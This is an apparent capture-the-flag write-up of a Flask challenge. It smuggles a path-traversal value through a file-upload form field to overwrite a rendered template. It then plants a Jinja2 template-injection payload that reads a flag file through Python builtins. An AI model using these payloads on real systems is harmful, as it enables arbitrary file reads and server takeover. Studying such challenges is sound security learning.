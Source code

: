
# Create a custom template and overwrite an existing one

> This server had so many pitfalls (public secret key, debug mode and comments directing at non important methods)

The important magic happens in these two routes:

```python
@app.route('/upload', methods=['POST'])
def upload():
    if 'file' not in request.files:
        flash('You, uh, kinda need a file.')
        return redirect(url_for('index'))
    if 'type' not in request.form:
        flash('Please specify a filetype.')
        return redirect(url_for('index'))
    file = request.files['file']
    UPLOAD_FOLDER = './wall/' + request.form['type']
    if file.filename == '':
        flash('You uh, kinda need a file.')
        return redirect(url_for('index'))
    if file:
        filename = hashlib.md5(file.read()).hexdigest()[:5] + '.' + '.'.join(file.filename.split('.')[1:])
        file.seek(0)
        try:
            file.save(os.path.join(UPLOAD_FOLDER, filename))
            flash('File successfully uploaded!')
            return redirect(url_for('index'))
        except:
            flash('Error while uploading file.')
            return redirect(url_for('index'))
```

```python
@app.route('/decaf')
def mutton():
    return render_template('decaf.html')
```

## Observations

1. We can change the parameter `type` to influence the the location to save the file
2. We can influence the file type
3. The filename is always a hash consisting of the digits `0123456789abcdef`
4. There is a template called `decaf` which is **rendered** by flask :D 

## Execution

> We craft a payload that has a hex md5 starting with `decaf`. We do so by placing random values into the template (here we put in a different title).

[Jinja template payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

We now send the following payload with the filename `png.html` and the type `../wall/../../app/templates/`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>gryHJFEMnz</title>
</head>
<body>
    {{ get_flashed_messages.__globals__.__builtins__.open("../var/flag").read() }}
</body>
</html>
```

Accessing `/decaf` gifts us the flag